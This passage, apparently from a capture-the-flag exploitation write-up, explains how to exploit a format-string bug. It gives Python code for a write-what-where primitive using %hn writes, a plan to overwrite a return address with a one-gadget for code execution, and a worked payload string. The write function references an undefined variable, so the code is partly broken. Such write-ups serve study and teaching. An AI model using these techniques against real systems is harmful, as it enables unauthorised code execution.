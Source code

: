 ### Achieving arbitrary write

Now since we have the ability to get arbitrary values on the stack we can achieve arbitrary read and write by getting an address on the stack and referencing it with `%s` or `%n`.

We already have a LIBC leak and a stack leak all we really need is an arbitrary write. We can rework our previous function into a write-what-where:

```python
def write(what, where):
	addr = stack_leak - 0x108 #calculate the address of the last 8 bytes of input buffer
	for i in range(3):
		str_addr = (addr & 0xffff) + 2*i #get the last 2 bytes of the address of buffer, and incremnt accordingly
		str_value = (value >> 0x10*i) & 0xffff #get the 2 bytes of the value we are writing
		
		sendString(f"%{str_addr}c%34$hn")
		sendString(f"%{str_value}c%63$hn")

#make our pointer in 63 point to the beginning of our 8 bytes in the buffer again
	sendCommand(f"%{(addr & 0xffff):d}c%34$hn")

#30 is the stack index of the last 8 bytes of the input buffer where we write the address
	sendCommand(f"%{(what & 0xffff):d}c%30$hn") #write the first 2 bytes of our value at our specified address
	for i in range(1, 3):
		sendString(f"%{(where + 2*i) & 0xffff:d}c%63$hn") #increment our address by 2, to write the next 2 bytes
		sendString(f"%{(what >> 0x10*i) & 0xffff:d}c%30$hn") #write the next 2 bytes of our value
```

### Exploitation

We have a couple of targets we can overwrite to get RCE with a one-gadget, a return address or `_malloc_hook`. In this case I would go with overwriting a return address as `malloc` may be called more than once in a `printf` call.

The only problem now is that the above write-what-where method uses several `printf` calls. Since writes are done with 2 bytes at the time of a `printf` call, the return address will have an invalid address leading to a segfault.

So we could just put 3 addresses on the stack each with a difference of 2 bytes, and just reference all 3 of them in a single`printf` call to write a 6 byte value\(or address\) at an arbitrary location.

If we wanted to write the value `0xc0dedeadbeef` at `0x7fffedbb0000`we would setup the 3 addresses on the stack using our write-what-where as the following:

```aspnet
0x15: 0x7fffedbb0000
0x16: 0x7fffedbb0000 + 2
0x17: 0x7fffedbb0000 + 4
```

And then send the following format string: `%48879c%27$hn%495c%29$hn%7631c%28$hn`.  
Since `printf` doesn't reset the counter for every `%n`, what we do is we start with the smallest value and then use the difference between the current counter and the next value for the next write. So in the format string above, we start with 48879 \(0xbeef hex\) and write it to its corresponding position in `0x7fffedbb0000`.  
After `0xbeef` comes `0xc0de`, but we won't use the decimal value for `0xc0de` but rather the difference: `0xc0de - 0xbeef = 0x1ef (495 decimal)` hence the 495 in the format string. Same goes for the next value `0xdead` we use `0xdead - 0xc0de = 0x1dcf (7631 decimal)`.
